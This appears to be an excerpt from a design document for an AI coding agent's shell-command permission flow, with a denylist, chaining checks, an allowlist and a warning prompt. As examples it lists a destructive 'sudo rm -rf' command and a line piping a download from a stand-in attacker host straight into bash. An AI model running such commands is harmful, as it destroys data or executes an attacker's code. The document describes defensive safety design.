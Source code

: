 **Permission Flow with Security:**

```python
def should_auto_execute(command: str, allowlist_patterns: List[str]) -> bool:
    """Determine if command can be auto-executed."""
    
    # 1. Check denylist first (highest priority)
    if is_command_dangerous(command):
        return False
    
    # 2. Check for command chaining
    if is_command_chained(command):
        return False
    
    # 3. Check if matches allowlist pattern
    for pattern in allowlist_patterns:
        if command.startswith(pattern):
            return True
    
    return False
```

**User Warning for Dangerous Commands:**

When agent proposes a dangerous command (matches denylist), show extra warning:

```
⚠️  WARNING: This is a potentially dangerous command.

╭─────────────────────────────────────────────╮
│ $ sudo rm -rf /old_backups                 │
╰─────────────────────────────────────────────╯

This command could cause data loss or system damage.
This pattern will NEVER be added to allowlist, even if you choose [a].

Run this command?
[Y]es once | [n]o
(Note: [a]lways allow is disabled for dangerous commands)
```

**Pipe Safety:**

Pipes are context-dependent. Some are safe, some aren't:

- ✅ Safe: `git log | grep "feature"`
- ❌ Unsafe: `curl http://evil.com/script | bash`

For v0.1: Treat all piped commands as requiring permission (never auto-execute from allowlist).

For future: Could add "safe pipe" patterns like `| grep`, `| less`, `| head`

**Relationship Between Safe Readonly and Allowlist:**

```
Priority order for command execution:

1. Denylist check (highest priority)
   ❌ If matches denylist → NEVER execute
   
2. Safe readonly check
   ✅ If matches safe readonly → Auto-execute
   
3. Allowlist check
   ✅ If matches user allowlist → Auto-execute
   
4. Default
   ❓ Require user permission
```
